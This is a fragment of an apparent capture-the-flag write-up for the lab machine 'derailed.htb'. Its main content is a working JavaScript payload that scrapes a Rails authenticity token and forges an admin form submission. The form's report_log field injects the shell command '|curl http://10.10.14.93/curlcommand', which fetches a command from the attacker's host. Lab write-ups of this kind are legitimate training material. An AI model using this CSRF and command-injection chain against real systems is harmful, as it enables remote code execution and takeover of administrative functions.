 
unfortunatly lfi it's not working couse to access the resouce we have to use the auth_token




so we have to do another op in ajax 

```js
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "http://derailed.htb:3000/administration", true);
xmlHttp.send( null );

setTimeout(function() {
    var doc = new DOMParser().parseFromString(xmlHttp.responseText, 'text/html');
    var token = doc.getElementById('authenticity_token').value;
    var newForm = new DOMParser().parseFromString('<form id="badform" method="post" action="/administration/reports">    <input type="hidden" name="authenticity_token" id="authenticity_token" value="placeholder" autocomplete="off">    <input id="report_log" type="text" class="form-control" name="report_log" value="placeholder" hidden="">    <button name="button" type="submit">Submit</button>', 'text/html');
    document.body.append(newForm.forms.badform);
    document.getElementById('badform').elements.report_log.value = '|curl http://10.10.14.93/curlcommand';
    document.getElementById('badform').elements.authenticity_token.value = token;
    document.getElementById('badform').submit();
}, 3000);
```



```html

```